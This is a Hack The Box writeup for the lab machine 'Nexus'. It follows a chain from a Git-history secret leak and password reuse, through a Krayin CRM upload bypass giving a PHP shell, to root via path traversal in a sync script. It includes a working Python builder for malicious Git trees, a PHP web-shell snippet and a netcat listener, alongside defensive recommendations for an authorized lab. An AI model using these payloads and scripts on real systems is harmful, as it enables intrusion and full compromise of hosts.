

# ⚡ Nexus, Hack The Box Writeup

> **Machine:** Nexus  
> **Platform:** Hack The Box  
> **Category:** Linux, Web, Source Code Disclosure, Credential Reuse, Authenticated RCE, Git Path Traversal, Privilege Escalation  
> **Difficulty:** Medium style workflow  
> **Status:** Completed  
> **Flags:** Redacted by design

---

## 0. Report Rules

This writeup intentionally does **not** include the user or root flag values. The goal is to document the methodology, exploitation path, reasoning, mistakes avoided, and knowledge gaps filled during the compromise of the machine.

> [!IMPORTANT]
> This writeup is for an authorized Hack The Box lab environment. Do not apply these steps to systems you do not own or have explicit permission to test.

---

## 1. Executive Summary

Nexus exposed a small initial attack surface: SSH and an nginx web server. The web service redirected to `nexus.htb`, which led to virtual host enumeration. Fuzzing discovered two additional vhosts: `git.nexus.htb` and `billing.nexus.htb`.

The Git vhost hosted a public Gitea instance. A public repository named `admin/krayin-docker-setup` contained a Docker/Krayin CRM setup. Its Git history exposed an old `.env` file containing a database password. That password was reused for the manager account `j.matthew@nexus.htb`, allowing access to the billing dashboard.

The billing dashboard was running Krayin CRM 2.2.0. An authenticated TinyMCE upload endpoint allowed a PHP payload to be uploaded while pretending to be an image. This gave a reverse shell as `www-data`.

Post-exploitation revealed the live Laravel `.env`, including the real database password. The same password was reused for the Linux user `jones`, giving SSH access and the user flag.

Privilege escalation came from a root-run systemd timer named `gitea-template-sync.timer`. The timer executed `/etc/gitea/template-sync.py` as root every minute. The script synchronized Gitea template repositories into a staging directory but failed to sanitize path traversal in Git tree file paths. By creating a malicious template repository containing a file path like `../../../../../../root/.ssh/authorized_keys`, root wrote our SSH public key into `/root/.ssh/authorized_keys`. This allowed SSH login as root.

---

## 2. Attack Chain Overview



---

## 3. Initial Enumeration

The initial Nmap scan showed only a small number of services:

```bash
nmap -sC -sV 10.129.234.54
```

Relevant output:

```text
22/tcp   open      ssh      OpenSSH 9.6p1 Ubuntu
80/tcp   open      http     nginx 1.24.0 Ubuntu
3814/tcp filtered  neto-dcs
```

The HTTP service returned a redirect:

```text
Did not follow redirect to http://nexus.htb/
```

So the first required step was adding the hostname to `/etc/hosts`:

```bash
echo "10.129.234.54 nexus.htb" | sudo tee -a /etc/hosts
```

Later, the machine IP changed, so `/etc/hosts` had to be updated:

```bash
sudo sed -i 's/10\.129\.234\.54/10.129.114.42/g' /etc/hosts
```

Final clean entry:

```text
10.129.114.42 nexus.htb git.nexus.htb billing.nexus.htb
```

> [!NOTE]
> In HTB, when a web server redirects to a hostname, always add that hostname to `/etc/hosts`. Without it, the browser and tools may not reach the intended virtual host.

---

## 4. Web Source Review

The main site was a static-looking page for the **Nexus Energy Authority**. The most useful part was the Careers modal, which exposed two email addresses:

```text
careers@nexus.htb
j.matthew@nexus.htb
```

The page itself did not contain direct API calls or obvious JavaScript vulnerabilities. However, it gave important context:

- The organization name was Nexus Energy Authority.
- The site had a Careers section.
- The hiring manager was `j.matthew@nexus.htb`.
- The role referenced customer platforms, dashboards, workflows, and CRM-style tools.

This later became important because the billing application was a CRM, and the manager email became a working login identity.

> [!TIP]
> Static websites are not always useless. They often leak naming patterns, emails, departments, technologies, and internal business context that becomes useful later.

---

## 5. Virtual Host Enumeration

Initial guessed subdomains all redirected to `nexus.htb`, which meant they were not unique apps:

```bash
for h in nexus.htb careers.nexus.htb mail.nexus.htb crm.nexus.htb portal.nexus.htb admin.nexus.htb api.nexus.htb; do
  echo "===== $h ====="
  curl -s -I http://$h | head
 done
```

Most returned:

```text
HTTP/1.1 302 Moved Temporarily
Location: http://nexus.htb/
Content-Length: 154
```

The default invalid-host response size was `154`, so vhost fuzzing used `-fs 154`:

```bash
ffuf -u http://10.129.114.42/ \
  -H "Host: FUZZ.nexus.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -mc all \
  -fs 154 \
  -ac \
  -t 40 \
  -c
```

Hits:

```text
git       [Status: 200, Size: 14474]
billing   [Status: 302, Size: 390]
```

The two real vhosts were:

```text
git.nexus.htb
billing.nexus.htb
```

> [!KNOWLEDGE GAP: Vhost Fuzzing]
> Directory fuzzing tests paths like `/admin`, `/login`, and `/api`.  
> Vhost fuzzing tests hostnames like `admin.example.htb`, `dev.example.htb`, and `git.example.htb`.  
> On nginx and Apache, multiple sites can run on the same IP address. The `Host` header decides which site you receive.

---

## 6. Gitea Enumeration

The source of `git.nexus.htb` confirmed it was a Gitea instance:

```html
<title>Gitea: Git with a cup of tea</title>
```

The footer exposed the version:

```text
Version: 1.26.0
```

The API confirmed it:

```bash
curl -s http://git.nexus.htb/api/v1/version | jq
```

```json
{
  "version": "1.26.0"
}
```

Public repository search:

```bash
curl -s "http://git.nexus.htb/api/v1/repos/search?limit=100" | jq
```

Discovered repository:

```text
admin/krayin-docker-setup
```

Clone URL:

```text
http://git.nexus.htb/admin/krayin-docker-setup.git
```

Cloning:

```bash
mkdir -p ~/CYBR/HTB/nexus
cd ~/CYBR/HTB/nexus

git clone http://git.nexus.htb/admin/krayin-docker-setup.git
cd krayin-docker-setup
```

---

## 7. Git History Secret Leak

The repository had two commits:

```bash
git log --oneline --all
```

```text
9b817fa Upload files to "/"
1615c46 Upload files to "/"
```

The old commit contained a `.env` file with a database password:

```bash
git show 1615c465b7:.env
```

Important values:

```text
DB_CONNECTION=mysql
DB_HOST=krayin-mysql
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=<REDACTED_OLD_DB_PASSWORD>
```

The current `.env` had an empty `DB_PASSWORD`, but the Git history preserved the old value.

> [!IMPORTANT]
> Deleting a secret from the latest commit does not remove it from Git history. If a secret was ever committed, assume it is compromised unless the history is rewritten and the secret is rotated.

Useful commands for this phase:

```bash
git log --oneline --all

git show HEAD~1:.env

git diff HEAD~1 HEAD

git grep -I -n -E "password|secret|token|APP_KEY|DB_PASSWORD|MYSQL_PASSWORD|MAIL_PASSWORD" $(git rev-list --all)
```

---

## 8. Docker Compose Analysis

The repository contained `docker-compose.yml`, which showed a Krayin CRM setup:

```text
krayin-app:
  image: webkul/krayin:latest

krayin-mysql:
  image: mysql:8.0

krayin-phpmyadmin:
  image: phpmyadmin:latest
```

Important environment references:

```text
DB_USERNAME: krayin
DB_PASSWORD: ${DB_PASSWORD}
PMA_USER: krayin
PMA_PASSWORD: ${DB_PASSWORD}
```

This confirmed that the leaked password was likely reused by the app and database-related services.

---

## 9. Billing Dashboard Access

The billing site presented a login form requiring an email address.

Earlier, the main site leaked the hiring manager email:

```text
j.matthew@nexus.htb
```

Using that email with the leaked password worked and gave access to the Krayin billing dashboard.

```text
Email:    j.matthew@nexus.htb
Password: <REDACTED_OLD_DB_PASSWORD>
```

> [!KNOWLEDGE GAP: Credential Reuse]
> Credential reuse means the same password is used across multiple systems. In this machine, a password exposed in a Git `.env` file was reused for a web application account. This is common in real environments and is one of the main reasons secrets must be rotated after exposure.

---

## 10. Authenticated RCE in Krayin CRM

The billing dashboard was running Krayin CRM 2.2.0. The relevant attack surface was the TinyMCE upload endpoint:

```text
POST /admin/tinymce/upload
```

The upload request accepted image uploads. By intercepting the upload in Burp Suite, the file name could be changed from a PNG filename to a PHP filename while keeping the content type as `image/png`.

The vulnerable pattern:

```http
Content-Disposition: form-data; name="file"; filename="rev.php"
Content-Type: image/png
```

The uploaded payload was a PHP reverse shell disguised as an image upload.

A simple test payload would have been:

```php
<?php
echo "NEXUS_RCE_OK\n";
echo shell_exec($_GET['cmd'] ?? 'id');
?>
```

However, the direct reverse shell payload worked.

Reverse shell listener:

```bash
nc -lvnp 4444
```

The callback landed as:

```text
www-data@nexus
```

Current directory:

```text
/krayin/storage/app/public/tinymce
```

> [!TIP]
> When testing file upload RCE, a command-execution test file is usually safer than immediately using a reverse shell. In this case, the reverse shell worked directly.

---

## 11. Post-Exploitation as www-data

The Laravel application directory contained a live `.env` file:

```bash
cd ~/krayin
cat .env
```

Important values discovered:

```text
APP_KEY=base64:<REDACTED_APP_KEY>
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=<REDACTED_LIVE_DB_PASSWORD>
```

The live password was different from the old Git-leaked password.

System users:

```bash
cat /etc/passwd
```

Important users:

```text
jones:x:1000:1000:,,,:/home/jones:/bin/bash
git:x:111:112:Git Version Control,,,:/home/git:/bin/bash
```

The next target was `jones`, the only normal interactive user.

---

## 12. Lateral Movement to jones

The live database password from `/krayin/.env` was reused for the Linux user `jones`.

SSH:

```bash
ssh jones@nexus.htb
```

Password:

```text
<REDACTED_LIVE_DB_PASSWORD>
```

This gave shell access as `jones`.

The user flag was located at:

```text
/home/jones/user.txt
```

Flag value is intentionally redacted.

> [!KNOWLEDGE GAP: Lateral Movement]
> Lateral movement means moving from one account or context to another. Here, the attacker moved from the web server account `www-data` to the real Linux user `jones` using password reuse.

---

## 13. Privilege Escalation Enumeration

`jones` had no sudo privileges:

```bash
sudo -l
```

Output:

```text
Sorry, user jones may not run sudo on nexus.
```

Systemd timers revealed a custom service:

```bash
systemctl list-timers
```

Interesting timer:

```text
gitea-template-sync.timer → gitea-template-sync.service
```

Service details:

```bash
systemctl cat gitea-template-sync.timer
systemctl cat gitea-template-sync.service
```

Timer:

```ini
[Unit]
Description=Run Gitea template sync every minute

[Timer]
OnBootSec=1min
OnUnitActiveSec=1min
Unit=gitea-template-sync.service

[Install]
WantedBy=timers.target
```

Service:

```ini
[Unit]
Description=Sync Gitea templates
After=network-online.target

[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
```

The critical fact:

```text
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
```

Root executed a Python script every minute.

---

## 14. Analyzing template-sync.py

Script path:

```text
/etc/gitea/template-sync.py
```

Permissions:

```text
-rw-r--r-- 1 git git 4184 template-sync.py
```

The script was not writable by `jones`, but it processed attacker-controlled Gitea template repositories.

Important constants:

```python
GITEA_URL = "http://localhost:3000"
REPO_ROOT = "/var/lib/gitea/data/gitea-repositories"
STAGING_DIR = "/home/git/template-staging"
LOG_FILE = "/var/log/template-sync.log"
```

The vulnerable logic:

```python
for mode, objhash, filepath in entries:
    target = os.path.join(stage_path, filepath)
    target_dir = os.path.dirname(target)

    os.makedirs(target_dir, exist_ok=True)

    with open(target, 'wb') as f:
        f.write(cat_result.stdout)
```

The script used file paths directly from the Git tree. It did not sanitize `../`, did not normalize paths, and did not verify that the final target remained inside the staging directory.

This created a root file-write primitive.

> [!KNOWLEDGE GAP: Path Traversal in File Sync]
> If a program joins a trusted base path with an untrusted filename, it must normalize the final path and confirm that it still starts with the intended base directory. Otherwise, paths like `../../../../etc/passwd` can escape the target directory.

Safe pattern example:

```python
base = os.path.abspath(stage_path)
target = os.path.abspath(os.path.join(base, filepath))

if not target.startswith(base + os.sep):
    raise ValueError("Path traversal blocked")
```

The script did not do this.

---

## 15. Exploitation Strategy for Root

The root script did this:

1. Used the Gitea API to find template repositories.
2. For each template repo, located its bare repository on disk.
3. Ran `git ls-tree -r HEAD`.
4. Extracted every blob into `/home/git/template-staging/<owner>/<repo>/<filepath>`.
5. Wrote files as root.

If a Git tree contains a file path like:

```text
../../../../../../root/.ssh/authorized_keys
```

then the final write escapes the staging directory and lands at:

```text
/root/.ssh/authorized_keys
```

So the plan was:

```text
Create Gitea repo as jones
Mark repo as Template Repository
Push malicious Git tree
Wait for root timer
Root writes our public key into /root/.ssh/authorized_keys
SSH as root
```

---

## 16. Building the Malicious Git Tree

A normal filesystem does not allow creating a directory named `..`. However, Git object trees can be crafted manually.

A helper script was used to manually write Git objects and create a tree containing traversal paths.

### Improved build.py

```python
#!/usr/bin/env python3
import argparse
import hashlib
import os
import subprocess
import sys
import time
import zlib
from pathlib import Path


def die(msg):
    print(f"[-] {msg}", file=sys.stderr)
    sys.exit(1)


def run(cmd):
    p = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    if p.returncode != 0:
        die(f"Command failed: {' '.join(cmd)}\n{p.stderr.strip()}")
    return p.stdout.strip()


def ensure_git_repo():
    if not Path(".git").is_dir():
        die("Run this inside the local Git repo you will push to Gitea.")
    run(["git", "symbolic-ref", "HEAD", "refs/heads/main"])


def write_git_object(obj_type, data):
    header = f"{obj_type} {len(data)}".encode() + b"\x00"
    store = header + data
    sha = hashlib.sha1(store).hexdigest()

    obj_dir = Path(".git") / "objects" / sha[:2]
    obj_path = obj_dir / sha[2:]

    obj_dir.mkdir(parents=True, exist_ok=True)

    if not obj_path.exists():
        obj_path.write_bytes(zlib.compress(store))

    return sha


def tree_entry(mode, name, sha):
    return f"{mode} {name}".encode() + b"\x00" + bytes.fromhex(sha)


def write_tree(entries):
    entries = sorted(entries, key=lambda e: e[1])
    raw = b"".join(tree_entry(mode, name, sha) for mode, name, sha in entries)
    return write_git_object("tree", raw)


def build_nested_path(path_parts, leaf_blob_sha):
    filename = path_parts[-1]
    dirs = path_parts[:-1]

    current_tree = write_tree([
        ("100644", filename, leaf_blob_sha),
    ])

    for dirname in reversed(dirs):
        current_tree = write_tree([
            ("40000", dirname, current_tree),
        ])

    return current_tree


def add_dotdot_wrappers(tree_sha, count):
    current = tree_sha

    for _ in range(count):
        current = write_tree([
            ("40000", "..", current),
        ])

    return current


def create_commit(root_tree_sha):
    ts = int(time.time())

    commit_data = (
        f"tree {root_tree_sha}\n"
        f"author jones <jones@nexus.htb> {ts} +0000\n"
        f"committer jones <jones@nexus.htb> {ts} +0000\n"
        f"\n"
        f"template sync\n"
    ).encode()

    return write_git_object("commit", commit_data)


def update_main(commit_sha):
    refs = Path(".git") / "refs" / "heads"
    refs.mkdir(parents=True, exist_ok=True)
    (refs / "main").write_text(commit_sha + "\n")
    run(["git", "symbolic-ref", "HEAD", "refs/heads/main"])


def main():
    parser = argparse.ArgumentParser(
        description="Build a malicious Git tree for the Gitea template-sync path traversal."
    )

    parser.add_argument(
        "--pubkey",
        default="/tmp/.k.pub",
        help="Public SSH key to write into /root/.ssh/authorized_keys. Default: /tmp/.k.pub"
    )

    parser.add_argument(
        "--target",
        default="/root/.ssh/authorized_keys",
        help="Target absolute path to write. Default: /root/.ssh/authorized_keys"
    )

    parser.add_argument(
        "--depth",
        type=int,
        default=5,
        help="Number of '../' path traversal levels. Default: 5"
    )

    args = parser.parse_args()

    ensure_git_repo()

    pubkey_path = Path(args.pubkey)
    if not pubkey_path.is_file():
        die(
            f"Public key not found: {pubkey_path}\n"
            "Generate it with:\n"
            "ssh-keygen -t ed25519 -f /tmp/.k -N ''"
        )

    target = args.target.strip()
    if not target.startswith("/"):
        die("Target must be an absolute path, for example /root/.ssh/authorized_keys")

    key_data = pubkey_path.read_text().strip() + "\n"

    key_blob = write_git_object("blob", key_data.encode())
    readme_blob = write_git_object("blob", b"# Template\n")

    target_parts = [p for p in target.strip("/").split("/") if p]
    target_tree = build_nested_path(target_parts, key_blob)
    traversal_tree = add_dotdot_wrappers(target_tree, args.depth)

    root_tree = write_tree([
        ("40000", "..", traversal_tree),
        ("100644", "README.md", readme_blob),
    ])

    commit_sha = create_commit(root_tree)
    update_main(commit_sha)

    print(f"[+] Done. Commit: {commit_sha}")
    print("[+] Verify with:")
    print("    git ls-tree -r HEAD")
    print("[+] Then push with:")
    print("    git push -u origin main --force")


if __name__ == "__main__":
    main()
```

### Usage

Generate SSH key:

```bash
ssh-keygen -t ed25519 -f /tmp/.k -N ''
```

Create local repo and run builder:

```bash
mkdir -p /tmp/rce
cd /tmp/rce

git init
git remote add origin http://git.nexus.htb/jones/rce.git

python3 build.py
```

Verify:

```bash
git ls-tree -r HEAD
```

Result:

```text
100644 blob <hash>    ../../../../../../root/.ssh/authorized_keys
100644 blob <hash>    README.md
```

Push:

```bash
git push -u origin main --force
```

The local Git client printed warnings about `.gitattributes` through the traversal path. These were harmless because the push still succeeded.

---

## 17. Confirming Root File Write

The sync log confirmed that the repo became a template repo and was processed:

```bash
cat /var/log/template-sync.log
```

Important successful lines:

```text
Found 1 template repo(s)
Syncing template: jones/rce
synced: ../../../../../../root/.ssh/authorized_keys
synced: README.md
```

Earlier, the log showed:

```text
ls-tree failed: fatal: Not a valid object name HEAD
```

This happened before the bare repository had a valid `HEAD`. After the push settled and the repo was correctly recognized, sync completed successfully.

> [!TIP]
> If a root timer is involved, always check logs and wait for at least one complete timer cycle. In this case, the exploit only worked after the timer detected a valid template repository and a valid `HEAD`.

---

## 18. Root Access

After the public key was written into `/root/.ssh/authorized_keys`, SSH as root succeeded:

```bash
chmod 600 /tmp/.k
ssh -i /tmp/.k root@nexus.htb
```

Root shell confirmed:

```bash
id
```

The root flag was located at:

```text
/root/root.txt
```

Flag value is intentionally redacted.

---

## 19. Vulnerability Breakdown

| Stage | Vulnerability or Weakness | Impact |
|---|---|---|
| Initial web | Hostname-based routing exposed hidden vhosts | Found Git and billing apps |
| Gitea | Public repository exposed deployment files | Source/config disclosure |
| Git history | Old `.env` retained secrets | Password disclosure |
| Accounts | Credential reuse | Billing login and SSH as jones |
| Krayin CRM | Authenticated TinyMCE upload to PHP execution | Shell as `www-data` |
| App config | Live `.env` readable by web user | Live DB password disclosure |
| Systemd | Root timer executed sync script every minute | Root attack surface |
| Python sync script | Path traversal in Git tree extraction | Arbitrary file write as root |
| SSH root | Root `authorized_keys` writable through traversal | Root shell |

---

## 20. Defensive Recommendations

### Git and Secrets

- Never commit `.env` files or secrets.
- Use `.gitignore` for environment files.
- Rotate any secret that was ever committed.
- Use secret scanning in CI/CD.
- Rewrite Git history only after rotating exposed secrets.

### Credential Hygiene

- Do not reuse database passwords for web accounts or Linux accounts.
- Use unique passwords per service.
- Enforce password managers and account separation.
- Disable password login for SSH where possible.

### Web Application Uploads

- Validate file extension, MIME type, and file content.
- Store uploads outside the web root.
- Do not allow PHP execution in upload directories.
- Randomize filenames and strip dangerous extensions.
- Apply server-side validation, not only client-side checks.

### Laravel/Krayin Configuration

- Set `APP_DEBUG=false` in production.
- Restrict `.env` permissions.
- Run the web app under least privilege.
- Avoid exposing admin panels publicly.

### Gitea Hardening

- Disable public repo discovery if not needed.
- Restrict template repo creation to trusted users.
- Protect API tokens.
- Audit custom automation around repositories.

### Root Automation

- Do not run sync jobs as root unless absolutely necessary.
- Sanitize all untrusted paths.
- Normalize and validate paths before writing files.
- Use safe extraction logic.
- Drop privileges before processing user-controlled repositories.

---

## 21. Key Knowledge Gaps Filled

### 21.1 Why vhost fuzzing mattered

The IP only showed one web server, but nginx used the `Host` header to route traffic. Without vhost fuzzing, `git.nexus.htb` and `billing.nexus.htb` would have been missed.

### 21.2 Why Git history mattered

The current `.env` did not contain the useful password, but the previous commit did. Git stores old objects unless history is rewritten.

### 21.3 Why `.php` upload worked through Burp

The browser/UI blocked direct PHP upload. Burp allowed the multipart request to be modified before it reached the server:

```text
Local file: shell.png
Intercepted filename: shell.php
Content-Type: image/png
```

The server trusted the upload enough to store the file in an executable location.

### 21.4 Why `www-data` could read `.env`

The web application needs access to its config at runtime. If permissions are too broad or the web user owns/reads the app directory, a web shell can read secrets from `.env`.

### 21.5 Why the Git tree traversal worked

The Python sync script trusted file paths from `git ls-tree`. Git trees can be manually crafted to include odd path components. The script joined these paths with a staging directory and wrote them as root without checking the final normalized location.

### 21.6 Why SSH as root worked

The exploit wrote the attacker's public key into:

```text
/root/.ssh/authorized_keys
```

SSH then accepted the matching private key:

```bash
ssh -i /tmp/.k root@nexus.htb
```

---

## 22. Useful Commands Recap

### Nmap

```bash
nmap -sC -sV 10.129.114.42
sudo nmap -p- --min-rate 5000 -Pn 10.129.114.42
```

### Vhost fuzzing

```bash
ffuf -u http://10.129.114.42/ \
  -H "Host: FUZZ.nexus.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -mc all \
  -fs 154 \
  -ac \
  -t 40 \
  -c
```

### Gitea API

```bash
curl -s http://git.nexus.htb/api/v1/version | jq
curl -s "http://git.nexus.htb/api/v1/repos/search?limit=100" | jq
```

### Git history checks

```bash
git log --oneline --all
git show HEAD~1:.env
git diff HEAD~1 HEAD
git grep -I -n -E "password|secret|token|APP_KEY|DB_PASSWORD" $(git rev-list --all)
```

### Reverse shell listener

```bash
nc -lvnp 4444
```

### Systemd timer analysis

```bash
systemctl list-timers
systemctl cat gitea-template-sync.timer
systemctl cat gitea-template-sync.service
cat /var/log/template-sync.log
```

### Root SSH

```bash
chmod 600 /tmp/.k
ssh -i /tmp/.k root@nexus.htb
```

---

## 23. Final Lessons

Nexus was not solved through one single vulnerability. It required chaining several small mistakes:

1. Hidden virtual hosts were discoverable.
2. Gitea exposed a public deployment repository.
3. Git history leaked secrets.
4. Credentials were reused across services.
5. Authenticated upload functionality allowed PHP execution.
6. Live application config leaked stronger credentials.
7. A root-run automation script trusted attacker-controlled Git paths.
8. Path traversal led to arbitrary root file write.

The most important lesson is that automation scripts are attack surface. Any process that runs as root and consumes user-controlled input must be treated like a privileged parser. In Nexus, the root sync service was intended to automate Gitea template management, but because it trusted repository file paths, it became the final path to full system compromise.

---

# End

**Machine:** Nexus  
**Result:** Rooted  
**Flags:** Redacted  
**Primary Learning:** Source leaks plus poor automation boundaries can become full root compromise.
